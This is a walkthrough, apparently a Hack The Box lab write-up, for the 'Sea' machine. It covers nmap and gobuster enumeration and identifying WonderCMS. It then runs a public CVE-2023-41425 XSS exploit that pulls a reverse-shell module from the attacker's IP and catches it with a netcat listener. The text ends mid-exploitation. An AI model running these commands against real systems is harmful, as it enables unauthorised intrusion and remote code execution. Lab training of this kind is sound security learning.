





# Sea Easy Linux Machine
* You can access the machine from this link [Sea Machine](https://app.hackthebox.com/machines/620)
* Sea is an easy linux machine and a good starting point.
* The process will go as follows: 
1. Start of nmap
2. Try to identify what is running on webapp
3. Taking a string that looks unique in CSS and searching Github
4. showing several ways we could dirbusted the themes directory
5. Discovering a public POC for the XSS attack
6. Showing the pathname is not being correctly in the public POC
7. problem with the shell
8. Extracting the WonderCMS Password and cracking it.
9. Discovering a few ports listening on localhost
10. Forwarding port 8080 back to our box
11. Discovering our shell dies quickley
12. Showing why our shell is not stable
13. Showing an altenative way to get shell
14. Going over XSS by writing our own javascript.
15. Showing we could have just stolen PHSESSID

* Lets go with our journey. 
## 1.Start of NMap
* we will use this command: (this command usually is our first step.)
> sudo nmap -sC -sV -vv -oA nmap/sea 10.10.11.28
* explaination for this command is as follows:
  * sudo -> runs the nmap with root privileges
  * nmap -> it is the tool used for scanning the networks
  * -sC -> uses the defualt NSE scripts like checking HTTP titles, SSH infos and so on
  * -sV -> version detections which tries to determine the version of the service running
  * -vv -> verbose to give more output about what nmap is doing
  * -oA nmap/sea -> output all formats (normal XML, grepable) and save it in nmap/sea
### -SC in more details
* 🔍 -sC → Default Script Scan

* The -sC option tells Nmap to run a set of default NSE (Nmap Scripting Engine) scripts.

* These scripts are designed to gather extra information without being too aggressive. It’s like a smart scan that checks commonly exposed services in a safe and useful way.

* 📚 What kind of scripts does -sC run?

* They include things like:
    - Protocol	Example Script Name	What it does
    - HTTP http-title	Gets the title of a web page
    - HTTP http-methods	Lists allowed HTTP methods
    - SSH ssh-hostkey	Shows the SSH host key fingerprint
    - FTP ftp-anon	Checks if anonymous FTP login is allowed
    - SMB smb-os-discovery	Tries to detect the OS over SMB
    - DNS dns-recursion	Checks if the DNS server allows recursion

* The goal is to give you extra info about open ports/services beyond just "port X is open".

### Now this will take some time to run then we can see the results in the file **nmap/sea.nmap**
> less nmap/sea.nmap
* this will show the content of the sea.nmap in a scrollable view
* This file is the normal output format of your previous nmap scan (-oA nmap/sea). It contains all the results of the scan, including:

   -  Open ports
 
   -  Detected services
 
   -  Service versions (from -sV)
 
   -  Script results (from -sC)
 
   -  Host information (IP, hostname, MAC, etc.)
* 
* You can see in the above image that we have 2 services:
  * 22/tcp ssh with openssh 8.2p1 Ubuntu
  * 80/tcp http syn-ack Apache httpd 2.4.41, looking at its cookies we find **PHSESSID** from which we know that it is a php web server so we can start our attack from this point. 

### Now lets go and open the web app on our browser by writing the ip address in the search bar.
* 
* then we should see this website on our browser.
* then we can navigate to **How to Participate**
* then we can the ip to our hosts file because we do not have DNS **/etc/hosts** using this command:
    > sudo vi /etc/hosts
* then add the ip iddress at the end as follows
  * 10.10.11.28  sea.htb

### Now we can open the contact link
* we will find a contact from in which we will see the following form:
* 
* we can do numeration on the url we got to see what all existing urls that we can navigate to using this command: 
   > gobuster dir -u http://sea.htb -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -o root.gobuster
* explaination for this command:
  * gobuster -> enumeration tool
  * dir -> directory mode which finds directories on the server  (looking for hidden folders/files).
  * -u -> url flag after which we should insert our url to enumerate from
  * -w -> wordlist flag after which we should insert the wordlist file which contains common words.
  * -x -> extention flag after which we specify the extension (Appends .php to each word — looks for PHP files (e.g., login.php).)
  * -o -> output flag after which we specify the name of the output file.
* 🧠 What this does in practice:
  * It tries requests like:
    - http://sea.htb/admin/
    - http://sea.htb/index.php
    - http://sea.htb/test.php
* and so on, based on the wordlist + .php extension.
* leave it running in the background and try to go on the contact form normally.
* you can find the word list in the default directory which is:
   * -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
   * also you can use other word lists like: quickhits.txt
### trying to link to us using the Website field
* in the website field add your ip:
  * http://your_ip:port
* then start a netcat listener using this command: 
    > nc -lvnp port
* the reason we are using nc instead of python.http server is that we can see all the headers coming in the connection from the client.
* you should see something like this: 
  * 
* you can not see something interesting from the results. so we can go back to the home page, and view the source code maybe you can find something
* there are two ways to do this:
  1. from the url, append before it **"view-source:url"**
  2. right click the page and open the source file or f12

## 2. Trying to identify what is running the webapp (WonderCMS), discovering a themes directory in source and burpsuite
* now we will try to identify what is running the webapp
* so we can open burpsuite, then in the Target tab we should add the sea.htb
* and in the explorer you should see the following 
  * 
* in the style sheet file, you should look for something unique like -webkit-animation: parallax_fg ... and search github for this
* by searching github we will find that the content management system used is called WonderCMS which is a simple CMS designed for building websites without needing a full database like MySQL
* another ways to find the server also by:
2. since we find the .css file in /themes/bike folder, we can enumerate it also using gobuster:
   > gobuster dir -u http://sea.htb/themes/bike/ -w wordlist
* you will see a file called Licence in which you will the copyright with the user name turboblack
* you can go to his github accont and the repo called turboblack in which you will  find the WonderCMS used
3. also if you used the quickhit.txt wordlist you will see the README.md file which will contain the CMS.

## 3.Discovering a public POC for the XSS Attack
* now our first step is to always look for ready made exploits on internet
* go for your browser and write: WonderCMS exploit in github you will find ready made exploit **exploit.py**
* excute it to know what does it take.
* you should find **CVE-2023-41425**
* then you will find that it attacks an endpoint called login/URL so you need to run the following command:
  > python3 exploit.py http://sea.htb/loginURL your_ip your_port
* then in another terminal open a lister using nc
  > nc -lvnp your_port
* you will find a file called xss.js
* grep the github word inside it using this command: 
  > grep github xss.js
* then you will find a zip file, install it using the following commands:
  > mkdir www
  > mv exploit.py www/
  > cd www/
  > wget https://github.com/...../main.zip
  > unzip main.zip
  > cd revshell-main
  > less revshell-main -> it is a reverse shell
  > rm revshell-main ( we do not need it anymore )
* then open the exploit.py and change the base url from github to your ip, and do not forget to replace https with http then add your ip and port number as follows:
  > line 17 -> installModule=http://your_ip:your_port/main.zip
